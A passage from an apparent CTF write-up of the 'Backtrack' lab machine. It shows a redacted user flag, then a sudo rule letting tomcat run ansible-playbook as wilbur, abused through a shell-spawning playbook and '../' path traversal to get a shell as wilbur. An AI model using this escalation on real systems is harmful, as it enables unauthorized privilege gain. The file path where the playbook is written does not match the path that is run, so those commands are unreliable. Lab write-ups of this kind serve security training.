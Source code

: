 ```console
tomcat@Backtrack:~$ ls
BUILDING.txt	 NOTICE		RUNNING.txt  flag1.txt	temp
CONTRIBUTING.md  README.md	bin	     lib	webapps
LICENSE		 RELEASE-NOTES	conf	     logs	work
tomcat@Backtrack:~$ cat flag1.txt 
THM{*****************************}
```

## **Literal Mouvement** 

### **sudo privilege `wilbur`**

Upon reviewing the **sudo privileges** for the **Tomcat** user, we discovered the ability to execute the command **/usr/bin/ansible-playbook** /opt/test_playbooks/*.yml with elevated privileges as the Wilbur user.

>Ansible-playbook is a YAML-based tool in Ansible for automating tasks like configuration management, application deployment, and system orchestration across multiple systems.
{: .prompt-info}


```console
tomcat@Backtrack:/home$ sudo -l
Matching Defaults entries for tomcat on Backtrack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on Backtrack:
    (wilbur) NOPASSWD: /usr/bin/ansible-playbook /opt/test_playbooks/*.yml
```
We can find an example of a playbook that will spawn a shell in [GTFObins](https://gtfobins.github.io/gtfobins/ansible-playbook/#sudo).

running our playbook with the directory traversal payload, we obtain a shell as the wilbur user

```console
tomcat@Backtrack:/opt/test_playbooks$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > /dev/drcpap/shell.yml
tomcat@Backtrack:/opt/test_playbooks$ chmod 777 /dev/drcpap/shell.yml
tomcat@Backtrack:/opt/test_playbooks$ sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../dev/shm/shell.yml
.....
.....
TASK [shell] ******************************************************************************************************************
$ id
uid=1004(wilbur) gid=1004(wilbur) groups=1004(wilbur)
```
here we go we are as wilbur user.

```console
$ ls -al
total 28
drwxrwx--- 3 wilbur wilbur 4096 Nov 20 15:34 .
drwxr-xr-x 4 root   root   4096 Mar  9  2024 ..
drwxrwxr-x 3 wilbur wilbur 4096 Nov 20 15:34 .ansible
lrwxrwxrwx 1 root   root      9 Mar  9  2024 .bash_history -> /dev/null
-rw-r--r-- 1 wilbur wilbur 3771 Mar  9  2024 .bashrc
-rw------- 1 wilbur wilbur   48 Mar  9  2024 .just_in_case.txt
lrwxrwxrwx 1 root   root      9 Mar  9  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 wilbur wilbur 1010 Mar  9  2024 .profile
-rw------- 1 wilbur wilbur  461 Mar  9  2024 from_orville.txt
```

